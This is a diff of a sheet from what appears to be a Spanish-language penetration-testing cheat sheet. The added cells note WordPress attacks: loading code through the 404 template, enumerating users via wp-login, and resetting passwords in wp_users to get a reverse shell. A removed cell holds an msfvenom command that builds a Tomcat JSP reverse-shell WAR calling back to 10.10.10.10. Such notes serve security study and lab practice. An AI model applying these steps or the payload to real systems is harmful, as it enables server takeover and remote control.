

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-V4 (WORDPRESS): …404 --> cargamos codigo…
+V4 (WORDPRESS): …404 --> borramos todo --> cargamos codigo…
-X4: (empty)
+X4: /?p=404.php O navegar a una pagina que no existe
-V5 (WORDPRESS): (empty)
+V5 (WORDPRESS): wp-login
-W5: (empty)
+W5: En wordpress en el wp-login si probamos un usuario nos dice si el usuario existe o si no existe al intentar logearnos, ya que si no existe nos lo dice, mientras que en el caso contrario nos dice contraseña incorrecta
-V6 (WORDPRESS): TOMCAT
+V6 (WORDPRESS): wp_users
-V6:X6 merged
-W6: (empty)
+W6: A traves de PHPMyAdmin se puede modificar la contraseña del Wordpress, en la base de datos de wordpress en wp_users, tenemos que cambiar la contraseña del usuario y ponerla por ejemplo en MD5 Y desde Wordpress entablarnos una reverse shell
-V7 (WORDPRESS): Comando
+V7 (WORDPRESS): (empty)
-W7: Descripcion
+W7: (empty)
-X7: Anotaciones
+X7: (empty)
-V8 (WORDPRESS): msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.10.10 lport=8888 -f war > archivo.war
+V8 (WORDPRESS): (empty)
-W8: Reverse shell para Tomcat
+W8: (empty)
-V10 (WORDPRESS): DRUPAL
+V10 (WORDPRESS): TOMCAT
```
Also changed, not shown: 12 added rows, 1 removed row, 63 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet General, sheet Enumeracion & Escaneos, sheet Inyecciones, cell formats.
